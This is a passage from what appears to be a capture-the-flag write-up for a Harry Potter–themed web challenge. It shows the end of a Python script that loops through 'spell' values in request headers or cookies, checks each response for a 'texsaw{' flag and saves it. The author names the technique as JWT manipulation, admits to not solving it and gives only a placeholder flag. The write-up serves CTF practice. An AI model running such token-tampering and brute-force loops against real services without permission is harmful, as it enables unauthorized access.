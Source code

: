 ```python
    }
    
    print(f"\n[*] Trying spell: {spell}")
    response = requests.get(MAGIC_URL, headers=headers, cookies=cookies)
    
    if "are u ready to help harry win the war of hogwarts" not in response.text:
        print(f"[+] FOUND INTERESTING RESPONSE with spell: {spell}")
        print(f"[+] Status code: {response.status_code}")
        
        if "texsaw{" in response.text.lower():
            import re
            flag_match = re.search(r'texsaw\{[^}]+\}', response.text, re.IGNORECASE)
            if flag_match:
                print(f"\n[!] FLAG FOUND: {flag_match.group(0)}")
                with open(f"flag_found_{spell}.html", "w") as f:
                    f.write(response.text)
                break
        
        print(f"[+] First 200 chars of response: {response.text[:200]}")
        with open(f"response_{spell}.html", "w") as f:
            f.write(response.text)
    else:
        print(f"[-] No special response with {spell}")

print("\n[*] Script execution completed.")
```

And this technique is about `JWT manipulation` but sadly I can not find the flag because I need to read some information about `Harry Potter` which I have never watched or even read it before. <br>
But thankfully this challenge is getting me to read something about `Harry Potter` =)) <br>

**Flag:** `texsaw{XXX}`